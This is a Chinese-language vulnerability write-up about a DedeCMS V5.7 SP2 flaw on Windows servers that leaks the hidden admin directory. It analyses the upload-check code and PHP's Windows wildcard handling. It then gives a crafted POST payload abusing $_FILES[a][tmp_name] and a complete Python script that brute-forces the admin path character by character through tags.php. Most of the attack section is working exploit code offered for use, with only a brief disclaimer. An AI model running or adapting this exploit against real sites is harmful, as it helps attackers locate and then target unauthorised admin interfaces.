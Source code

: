 # DedeCMS 后台地址泄露漏洞

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞描述

织梦内容管理系统(Dedecms)是一款PHP开源网站管理系统。dedecms 默认后台地址为 /dede，但很多时候可能会被管理员更改，这时，我们就需要先找到后台地址，本漏洞可以泄露出 dedecms 的后台。

## 漏洞影响

仅针对windows系统（这是因为 < 通配符只在 windows 生效），猜测影响全版本

测试版本 DedeCMS V5.7 SP2

## 漏洞分析

### 代码分析

问题出在 include/common.inc.php 的 148 行

```php
if($_FILES)
{
    require_once(DEDEINC.'/uploadsafe.inc.php');
}
```

上传文件时会请求 include/uploadsafe.inc.php

```php
...
$keyarr = array('name', 'type', 'tmp_name', 'size');
...
foreach($_FILES as $_key=>$_value)
{
    foreach($keyarr as $k)
    {
        if(!isset($_FILES[$_key][$k]))
        {
            exit('Request Error!');
        }
    }
    if( preg_match('#^(cfg_|GLOBALS)#', $_key) )
    {
        exit('Request var not allow for uploadsafe!');
    }
    $$_key = $_FILES[$_key]['tmp_name'];
    ${$_key.'_name'} = $_FILES[$_key]['name'];
    ${$_key.'_type'} = $_FILES[$_key]['type'] = preg_replace('#[^0-9a-z\./]#i', '', $_FILES[$_key]['type']);
    ${$_key.'_size'} = $_FILES[$_key]['size'] = preg_replace('#[^0-9]#','',$_FILES[$_key]['size']);
    if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
    {
        if(!defined('DEDEADMIN'))
        {
            exit('Not Admin Upload filetype not allow !');
        }
    }
    if(empty(${$_key.'_size'}))
    {
        ${$_key.'_size'} = @filesize($$_key);
    }
    
    $imtypes = array
    (
        "image/pjpeg", "image/jpeg", "image/gif", "image/png", 
        "image/xpng", "image/wbmp", "image/bmp"
    );

    if(in_array(strtolower(trim(${$_key.'_type'})), $imtypes))
    {
        $image_dd = @getimagesize($$_key);
        //问题就出在此处，获取不到就会报错退出
        if (!is_array($image_dd))
        {
            exit('Upload filetype not allow !');
        }
    }
}
```

首先会解析 `$_FILES` 的值，需要满足 `$_FILES[$key]` 一定要存在数组 `$keyarr`  中的这些键

然后就是不允许 `$key` 等于 cfg_ 或者 GLOBALS，这里防止了一部分的变量覆盖，因为之后就会 `$$key`

接下来就是一些取值，比较简单，然后给了一个文件类型的白名单，必须满足是这些类型，最后来到出问题的位置，获取图片的大小，获取不到就报错，这里的话，由于 `$_FILES` 的值可控，也就是 `$$key` 的值可控，既然文件名可控，那么我们就可以利用这里判断是不是存在某文件，再利用通配符，我们就可以获取到后台的地址 

### PHP在Windows上的一些奇妙特性

这里我们需要了解一下 php 在windows上的一些奇妙特性 [WINDOWS文件通配符分析](https://www.cnblogs.com/wangtanzhi/p/12868197.html)

```
大于号(>)相等于通配符问号(?)
小于号(<)相当于通配符星号(*)
双引号(")相当于点字符(.)
```

首先我们需要知道我们使用了文件操作函数，然后PHP的文件操作函数均调用了opendir

`opendir(win32readdir.c)` 使用了 `windows` 的 `FindFirstFile（API)` ，然后在FindFirstFile（API)中进行了如下的定义：

```
//  The following constants provide addition meta characters to fully
//  support the more obscure aspects of DOS wild card processing.

#define DOS_STAR        (L'<')
#define DOS_QM          (L'>')
#define DOS_DOT         (L'"')
```

于是我们的这三个符号在对php文件操作时就有了特殊含义

我们的这里使用了 getimagesize 函数，刚好他是文件操作，我们我们可以使用通配符 <

很多地方说的都是 < 只通配一个字符，但实际尝试中却是可以通配多个字符

### payload 构造

只要包含了 include/common.inc.php 的文件就可以被利用，没有其他特殊条件，这里我们可以选取 tags.php

在前面的文章中说过，每一个 GET 或者 POST 的参数都会进行如下处理

```php
foreach(Array('_GET','_POST','_COOKIE') as $_request)
{
    foreach($$_request as $_k => $_v)
    {
        if($_k == 'nvarname') ${$_k} = $_v;
        else ${$_k} = _RunMagicQuotes($_v);
    }
}
```

因此，我们的 `$_FILES` 也可以通过这种形式来获取，POST 一个 `_FILES[a][tmp_name]` 就可以实现

这里还有一个简单的绕过

```php
if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
{
    if(!defined('DEDEADMIN'))
    {
        exit('Not Admin Upload filetype not allow !');
    }
}
```

我们这里必然是没有定义 DEDEADMIN 的，因此我们需要绕过，最简单的就是

```php
$_FILES[a][name]=''
```

因此我们可以构造 payload

```
_FILES[a][tmp_name]=./de</images/image.gif&_FILES[a][name]=&_FILES[a][type]=image/gif&_FILES[a][size]=10
```

## Exp

如果通配符只匹配一个字符，但刚好有文件夹的第一个字符与后台地址的第一个字符相同，那么将得不到结果，所以最好是先确定两个字符，因为只针对 windows，windows大小写不敏感，所以只需要小写字母+数字就行，图片文件需要是真实存在的

```python
import requests
import string
import re

s = requests.session()

def getData(payload):
    return {
        '_FILES[a][tmp_name]': payload,
        '_FILES[a][name]': '',
        '_FILES[a][type]': 'image/gif',
        '_FILES[a][size]': '10'
    }

def getAdmin(url):
    dic = string.digits + string.ascii_lowercase
    path = ''
    flag = False
    for i in dic:
        if flag:
            break
        for j in dic:
            payload = './' + i + j + '</images/image.gif'
            data = getData(payload)
            html = s.post(url + '/tags.php', data=data).text
            if 'Upload filetype not allow !' not in html:
                path = i + j
                flag = True
                break
    print("[+] " + url + "/" + path)
    while(1):
        for i in dic:
            payload = './' + path + i + '</images/image.gif'
            data = getData(payload)
            html = s.post(url + '/tags.php', data=data).text
            if 'Upload filetype not allow !' not in html:
                path = path + i
                print("[+] " + url + "/" + path)
                break
        if s.get(url + '/' + path + '/images/image.gif').status_code == 200:
            break

if __name__ == '__main__':
    url = 'http://127.0.0.1/dedecms'
    getAdmin(url)

```

## 参考

- https://wiki.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCms%E5%90%8E%E5%8F%B0%E5%9C%B0%E5%9D%80%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E/

`github` 链接：`https://github.com/d5shenwu/vulPOC`

